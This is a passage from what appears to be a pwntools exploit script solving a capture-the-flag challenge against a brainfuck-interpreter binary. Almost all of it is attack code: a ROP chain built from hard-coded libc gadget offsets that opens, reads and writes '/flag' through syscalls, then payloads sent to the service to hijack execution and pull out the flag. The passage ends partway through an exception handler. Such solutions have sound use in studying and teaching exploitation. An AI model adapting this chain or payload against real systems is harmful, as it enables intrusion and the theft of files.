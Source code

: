 ```
            ROP_chain += p64(libc.address + 0x00000000000d2975)
            # open(BSS+0x400,0)
            ROP_chain += p64(libc.address + 0x000000000002155f)
            ROP_chain += p64(PIE_address + bf.bss() + 0x400)
            ROP_chain += p64(libc.address + 0x0000000000023e6a)
            ROP_chain += p64(0)
            ROP_chain += p64(libc.address + 0x00000000000439c8)
            ROP_chain += p64(2)
            ROP_chain += p64(libc.address + 0x00000000000d2975)
            # read(3,BSS+0x500,0x20)
            ROP_chain += p64(libc.address + 0x000000000002155f)
            ROP_chain += p64(3)
            ROP_chain += p64(libc.address + 0x0000000000023e6a)
            ROP_chain += p64(PIE_address + bf.bss() + 0x500)
            ROP_chain += p64(libc.address + 0x0000000000001b96)
            ROP_chain += p64(0x20)
            ROP_chain += p64(libc.address + 0x00000000000439c8)
            ROP_chain += p64(0)
            ROP_chain += p64(libc.address + 0x00000000000d2975)
            # write(0,BSS+0x500,0x20)
            ROP_chain += p64(libc.address + 0x000000000002155f)
            ROP_chain += p64(1)
            ROP_chain += p64(libc.address + 0x0000000000023e6a)
            ROP_chain += p64(PIE_address + bf.bss() + 0x500)
            ROP_chain += p64(libc.address + 0x0000000000001b96)
            ROP_chain += p64(0x20)
            ROP_chain += p64(libc.address + 0x00000000000439c8)
            ROP_chain += p64(1)
            ROP_chain += p64(libc.address + 0x00000000000d2975)
            # exit(0)
            ROP_chain += p64(libc.address + 0x000000000002155f)
            ROP_chain += p64(0)
            ROP_chain += p64(libc.address + 0x00000000000439c8)
            ROP_chain += p64(60)
            ROP_chain += p64(libc.address + 0x00000000000d2975)
            for i in ['[',']']:
                if i in ROP_chain:
                    raise ValueError('ROP_chain ERROR')

            sh.recvuntil('want to continue?' , timeout = 0.3)
            sh.send('y')

            sh.recvuntil('enter your code:' , timeout = 0.3)
            sh.sendline(p64(0) + ROP_chain)

            sh.recvuntil('want to continue?' , timeout = 0.3)
            sh.send('y')

            sh.recvuntil('enter your code:' , timeout = 0.3)
            sh.sendline('+[&gt;.+],')
            sh.send(p8((code_low_addr) &amp; 0xFF))
            sh.send(p8((code_low_addr) &amp; 0xFF))

            # get_gdb(sh)
            sh.recvuntil('want to continue?' , timeout = 0.3)
            sh.send('n')

            sh.send('/flag')
            # sh.interactive()
            flag = sh.recvrepeat(0.3)
            sh.close()
            return flag
        except Exception as e:
```